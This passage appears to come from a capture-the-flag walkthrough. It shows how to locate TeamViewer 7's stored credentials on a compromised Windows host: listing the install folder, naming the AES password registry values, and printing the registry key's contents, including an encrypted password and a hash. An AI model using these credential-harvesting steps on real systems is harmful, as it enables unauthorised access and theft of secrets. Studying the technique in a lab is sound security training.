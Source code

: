TeamViewer is a remote management software. Since this is the server, it will have credentials used for others to connect to it.

I can get the version by looking in the `\Program Files (x86)\TeamViewer`:

```
PS C:\Program Files (x86)\TeamViewer> ls


    Directory: C:\Program Files (x86)\TeamViewer


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/27/2020  10:35 AM                Version7
```

There’s a list of registry keys, and the one that looks like version 7 is `HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`. For each location, it looks for the following values:

OptionsPasswordAES SecurityPasswordAES SecurityPasswordExported ServerPasswordAES ProxyPasswordAES LicenseKeyAES

I can take a look at that registry key:

```
PS C:\Program Files (x86)\TeamViewer> cd HKLM:\software\wow6432node\teamviewer\version7
PS HKLM:\software\wow6432node\teamviewer\version7> get-itemproperty -path .


StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B9641D}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1584564540
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
PSChildName               : version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry
```
